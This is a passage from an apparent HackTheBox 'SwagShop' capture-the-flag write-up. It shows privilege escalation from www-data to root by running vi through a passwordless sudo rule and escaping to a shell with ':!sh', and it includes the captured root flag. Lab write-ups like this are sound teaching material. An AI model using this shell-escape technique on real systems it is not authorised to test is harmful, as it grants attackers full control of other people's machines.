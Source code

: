 For privileage escalation I had to look through the machine and to find any programs that might run with escalated privelages.
I first tried sudo su which did not work next I looked for services with admin privileages and found sudo -l
```bat
    sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www/html/*
    sudo /usr/bin/vi /var/www/html/something
    Vim: Warning: Output is not to a terminal
    Vim: Warning: Input is not from a terminal

    E558: Terminal entry not found in terminfo
    'unknown' not known. Available builtin terminals are:
        builtin_amiga
        builtin_beos-ansi
        builtin_ansi
        builtin_pcansi
        builtin_win32
        builtin_vt320
        builtin_vt52
        builtin_xterm
        builtin_iris-ansi
        builtin_debug
        builtin_dumb




    :!sh
    ~
    ~
    ~
    :!sh
    i
    sh: 1: i: not found
    id
    uid=0(root) gid=0(root) groups=0(root)
    cat root/root.txt
    cat: root/root.txt: No such file or directory
    cat /root/root.txt
    c2b087d66e14a652a3b86a130ac56721

    ___ ___
    /| |/|\| |\
    /_| ´ |.` |_\           We are open! (Almost)
    |   |.  |
    |   |.  |         Join the beta HTB Swag Store!
    |___|.__|       https://hackthebox.store/password

                    PS: Use root flag as password!
```
What happend here I eneted into /var/www/www-data file which had sudo privileges withm vim and then from vim I escaped to a terminal making  myself root and giving myself access to the root shell.